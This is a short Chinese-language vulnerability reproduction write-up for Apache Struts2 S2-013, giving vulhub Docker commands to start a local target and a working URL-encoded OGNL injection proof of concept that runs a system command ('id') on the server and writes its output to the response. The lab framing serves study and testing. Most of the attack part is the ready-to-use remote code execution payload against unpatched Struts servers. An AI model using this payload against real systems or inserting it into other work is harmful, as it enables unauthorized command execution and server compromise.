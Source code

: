 官方公告：[S2-013](https://cwiki.apache.org/confluence/display/WW/S2-013)

### 影响版本

- [x] Struts 2.0.0 - 2.3.14.1

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-013
docker-compose up -d
```

访问 `http://your-ip:8080` ，查看如下页面

![s2-013-1](images/s2-013-1.png)

任意命令执行 PoC，执行 `id` 命令

```
/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27id%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```
